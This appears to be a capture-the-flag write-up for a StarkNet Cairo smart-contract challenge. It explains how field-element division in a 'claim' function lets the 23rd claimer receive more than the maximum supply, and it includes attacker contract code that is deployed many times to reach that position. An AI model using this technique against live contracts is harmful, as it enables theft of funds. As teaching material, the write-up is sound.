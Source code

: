 # `first-come-first-served`

## Number of points

464 (sixth easiest challenge of the CTF)

## Challenge victory condition

The challenge is validated when the balance of the user (which can be retrieved
by calling `get_balance`) is strictly greater than the
"maximum" possible thought by the smart contract writer (which can be retrieved
by calling `get_max_supply`).

## Challenge solution

The whole challenge relies on a `claim` function that is used to increase user
balance:

```cairo
@external
func claim{syscall_ptr: felt*, pedersen_ptr: HashBuiltin*, range_check_ptr}() {
    let (_last_claimer) = last_claimer.read();
    let (caller) = get_caller_address();

    let (already_claimed) = claimed.read(caller);
    with_attr error_message("Already claimed") {
        assert already_claimed = 0;
    }

    let left_to_claim = is_le_felt(_last_claimer, 30);
    with_attr error_message("Too many claimers") {
        assert left_to_claim = 1;
    }
    let (total_shares) = shares.read();
    let shares_to_deal = total_shares / _last_claimer;
    claimed.write(caller, 1);
    balances.write(caller, shares_to_deal);

    last_claimer.write(_last_claimer + 1);
    return ();
}
```

This function can be summarized by the following behaviour:
* A given address can only claim once. This is ensured by writing 1 to the caller
  address is the `claimed` storage variable and checking its value before
increasing user balance.
* Only 30 different addresses can claim. This is ensured by incrementing the
  storage variable `last_claimer` at each claim and checking that its value is
lower than 30.
* The amount actually added to the user balance, `shares_to_deal`, is governed by
this line: `let shares_to_deal = total_shares / _last_claimer;`, where
`total_shares` is equal to `max_supply` which is equal to `178757362047346148211425280000000`.

At first glance, it seems that the claimed amount is only decreasing since it
is equal to the division of `total_shares` by the number of users that have
already claimed plus one. However, both `total_shares` and `_last_claimer` are defined
as field elements: this means that the division is **not** an integer
division, but a division in the field. A field division does not behave like
an integer division, and is easiest to reason with by seeing it as the
multiplication by an inverse. The inverse $a^{-1}$ of a field element $a$ is the element
such that $ab = 1$, which is guaranteed by the definition of a field (remember
that in our case, the multiplication is just the integer multilication
**modulo a given prime `p`**). Thus, if we see `total_shares / _last_claimer;`
as `total_shares * modular_inverse(_last_claimer) % p` it is easy to see that
there is no guarantee the result is lower than `total_shares` (for example
take `total_shares = 3`, `modular_inverse(_last_claimer) = 2` and any `p >
6`).

In fact, for `_last_claimer = 23` the result of the operation is greater than
`max_supply`. This value has been found be computing the result of the
division for every value between 1 and 30, stopping at the first suitable
value.

During deployement of the contract, the game server is invoking `claim` once.
To be able to have 22 people claiming before us, we created 21 identical contracts with
different addresses (by changing the salt) implementing a function that
invokes the `claim` function of the target contract. Here is their source
code:
```cairo
%lang starknet


@contract_interface
namespace VictimContract {
    func claim() {
    }
}

from starkware.cairo.common.cairo_builtins import HashBuiltin
from starkware.starknet.common.syscalls import get_caller_address

@storage_var
func victim_contract() -> (res: felt) {
}

@constructor
func constructor{syscall_ptr: felt*, pedersen_ptr: HashBuiltin*, range_check_ptr}(victim: felt) {
    victim_contract.write(victim);
    return ();
}

@external
func claim{syscall_ptr: felt*, pedersen_ptr: HashBuiltin*, range_check_ptr}() {
    let (victim_address) = victim_contract.read();
    VictimContract.claim(contract_address=victim_address);
    return ();
}
```
